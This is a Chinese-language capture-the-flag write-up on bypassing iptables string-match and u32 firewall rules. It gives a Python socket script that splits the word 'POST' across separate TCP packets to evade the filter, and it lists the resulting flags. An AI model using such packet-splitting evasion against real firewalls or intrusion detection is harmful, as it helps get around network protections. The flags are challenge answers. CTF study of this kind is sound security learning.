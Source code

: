 ## 18. Komm, süsser Flagge

> Now the flag is all mine  
> Can't live without the trust from ip tables

小 Z 写好了一个 flag 服务器，但是他不想让 flag 被轻易地获取，于是他在服务器上设置了一些防火墙规则。如果你的流量不幸被匹配上了，那么你的连接就会被切断。

尽管如此，聪明的小 Q 还是找到办法绕过了精心设计的规则，并偷走了小 Z 的 flag。

---

小 Z 部署的 iptables 规则如下：

```plain
*filter
:INPUT ACCEPT [0:0]
:OUTPUT ACCEPT [0:0]
:FORWARD DROP [0:0]
:myTCP-1 - [0:0]
:myTCP-2 - [0:0]
:myTCP-3 - [0:0]
-A INPUT -p tcp --dport 18080 -j myTCP-1
-A INPUT -p tcp --dport 18081 -j myTCP-2
-A INPUT -p tcp --dport 18082 -j myTCP-3

-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset

-A myTCP-2 -p tcp -m u32 --u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50" -j REJECT --reject-with tcp-reset

-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
COMMIT
```

所有小题都需要 POST 你的 token 到 `/`，获取 flag，在没有以上规则的情况下，可以直接使用 `curl` 获取 flag（需要将 `114514:asdfgh==` 替换成你的 token）：

```plain
curl -X POST -d "114514:asdfgh==" http://题目地址
```

其中：

- 第一小题（我的 POST）位于 http://202.38.93.111:18080，对应防火墙规则中的 `myTCP-1` 链；
- 第二小题（我的 P）位于 http://202.38.93.111:18081，对应防火墙规则中的 `myTCP-2` 链；
- 第三小题（我的 GET）位于 http://202.38.93.111:18082，对应防火墙规则中的 `myTCP-3` 链。  
        注意：第三小问的链接可能无法直接在浏览器中打开，这是预期行为。

**某些网络环境下本题可能无法正常解出，你可以使用下面提供的 OpenVPN，并将上面的 IP 地址替换为 192.168.23.1 尝试解题，端口号不变。**

- [OpenVPN 配置文件](./hg-guest.ovpn)

点击下方的「打开/下载题目」按钮，下载附件。附件可以用于在 Docker 中复现题目的防火墙环境，其中 `main.go` 并非题目核心内容，仅供参考和测试，与实际运行的程序有所不同。

### 题目描述

> 附件：[iptables-flag.tar.gz](./iptables-flag.tar.gz)

### 尝试与解决

> 关键词：拆分数据包

#### 我的 POST

正常情况下一个 POST 请求是这样的：

```plain
POST / HTTP/1.1
Host: 202.38.93.111
Content-Length: 14

239:[redacted]
```

这样的请求文本可以通过 `nc 202.38.93.111:18080 < request1.txt` 发送给服务器。

而防火墙规则恰恰拦截了包含字符串 `POST` 的请求。HTTP 标准要求的 POST 格式必须包含完整的，ASCII 编码的 `POST`，大小写也不能互换，`main.go` 与 Golang 的 HTTP 库源代码也都表明了这一点。似乎没有办法绕过 `POST`。

然而，仔细思考，防火墙拦截的不是含 `POST` 的请求，而是含 `POST` 的 **TCP 数据包**！HTTP 是一种可以分块传输的协议，一个 TCP 数据包并不一定要包含完整的请求。于是，可以将单词 `POST` 拆分到两个数据包中。这一行为无法通过 `nc` 做到，可以用 Python socket 实现。

```python
import socket
from time import sleep

tcp_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

server_addr = ("202.38.93.111", 18080)
tcp_socket.connect(server_addr)

data1 = '''PO'''
data2 = '''ST / HTTP/1.1
Host: example.com
Content-Length: 14

239:[redacted]
'''
# 注意 Content-Length 要与 token 实际长度匹配

tcp_socket.send(data1.encode())
sleep(1)
tcp_socket.send(data2.encode())
tcp_socket.send(''.encode())

msg = tcp_socket.recv(2048)
print(msg.decode())

tcp_socket.close()
```

立刻获得 flag。

#### 我的 P

这个防火墙规则似乎不太能看得懂，但是题目叫“我的 P”，为何不试试将 `P` 拆分到第一个数据包，其余拆分到第二个数据包呢？

```python
data1 = '''P'''
data2 = '''OST / HTTP/1.1
Host: example.com
Content-Length: 14

239:[redacted]
'''
# 注意 Content-Length 要与 token 实际长度匹配
```

Yes!

*这应该是个非预期解*

#### 我的 GET

这个服务器直接拒绝连接了，不太能想出来怎么搞。

### Flags

```plain
flag{ea5Y_sPl1tt3r_7ea4b86bcd}
```

Easy splitter. 指拆分数据包。

```plain
flag{r3s3rv3d_bYtes_b2a0c7be14}
```

Reserved bytes. 我不到啊
